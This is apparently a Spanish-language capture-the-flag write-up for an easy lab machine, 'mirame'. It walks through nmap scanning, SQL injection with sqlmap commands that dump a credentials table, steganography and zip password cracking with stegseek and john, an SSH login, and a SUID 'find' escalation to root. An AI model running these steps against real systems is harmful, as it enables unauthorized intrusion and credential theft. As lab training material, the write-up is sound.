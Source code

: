 # Máquina mirame

---

Dificultad -> Fácil

--- 

Empezamos con un nmap para ver puerto y servicios

```shell
nmap -p- --open -sV -sC -sS --min-rate=5000 -n -Pn 172.17.0.2
```

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 2c:ea:4a:d7:b4:c3:d4:e2:65:29:6c:12:c4:58:c9:49 (ECDSA)
|_  256 a7:a4:a4:2e:3b:c6:0a:e4:ec:bd:46:84:68:02:5d:30 (ED25519)
80/tcp open  http    Apache httpd 2.4.61 ((Debian))
|_http-server-header: Apache/2.4.61 (Debian)
|_http-title: Login Page
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Encontramos los puertos 22 y 80 asi que accedo desde el navegador

![](assets/2025-10-29-16-40-21-image.png)

Veo un panel de inicio de sesión asi que pruebo a ver si hay sql injection poniendo ' de usuario y cualquier cosa como contraseña

![](assets/2025-10-29-16-41-11-image.png)

Da un error de sql asi que si que es vulnerable a sql injection.

Utilizo la herramienta de sqlmap para ver las bases de datos

```shell
sqlmap -u "http://172.17.0.2"  --forms --batch --dbs
```

![](assets/2025-10-29-16-44-12-image.png)

Miro la las tablas de la base de datos user

```shell
sqlmap -u "http://172.17.0.2"  --forms --batch -D users --tables
```

![](assets/2025-10-29-16-54-46-image.png)

Miro la tabla usuarios

```shell
sqlmap -u "http://172.17.0.2"  --forms --batch -D users -T usuarios --dump
```

![](assets/2025-10-29-16-56-34-image.png)

Encuentro varias credenciales que si pruebo en la pagina me llevan a una pagina para ver el clima que no me sirve de mucho

![](assets/2025-10-29-16-57-59-image.png)

Veo que en las credenciales hay un usuario directorio con la contraseña directoriotravieso asi que pruebo a poner la contraseña en la url

![](assets/2025-10-29-16-58-51-image.png)

Encuentro una imagen de unos ojos que puedo descargar

![miramebien.jpg](assets/b977ddce5a183d61032de4a7dfa595a2b1a736f3.jpg)

La descargo y busco a ver si hay alguna información en los metadatos

```she
exiftool miramebien.jpg
```

![](assets/2025-10-29-17-01-36-image.png)

No veo nada interesante asi que miro si hay algun archivo oculto con estenografía

```shell
steghide extract -sf miramebien.jpg
```

![](assets/2025-10-29-17-05-54-image.png)

No encuentro nada sin una frase asi que seguramente tenga una, asi que pruebo a crackearla

```shell
stegseek --crack miramebien.jpg
```

![](assets/2025-10-29-17-08-05-image.png)

Encuentro un zip llamado ocultito.zip que se ha guardado como miramebien.jpg.out asi que lo extraigo y miro que tiene 

![](assets/2025-10-29-17-09-11-image.png)

Al parecer el zip también tiene una contraseña asi que vuelvo a intentar crackerla con john y zip2john

```shell
zip2john miramebien.jpg.out > miramebien.john
```

```shell
john miramebien.john
```

![](assets/2025-10-29-17-13-34-image.png)

Y como se puede ver encuentra la contraseña stupid1 asi que extraigo secret.txt y miro su contenido

![](assets/2025-10-29-17-14-34-image.png)

Me da unas credenciales que parecen de ssh asi que me conecto y estamos dentro.

Intento escalar privilegios con sudo -l pero no funciona

![](assets/2025-10-29-17-16-37-image.png)

Asi que busco binarios con permisos SUID y encuentro find

![](assets/2025-10-29-17-17-24-image.png)

Con esto, me dirijo a [GTFOBins](https://gtfobins.github.io/), busco el binario find y ejecuto el comando

![](assets/2025-10-29-17-19-20-image.png)

Y finalmente consigo ser root en esta máquina.
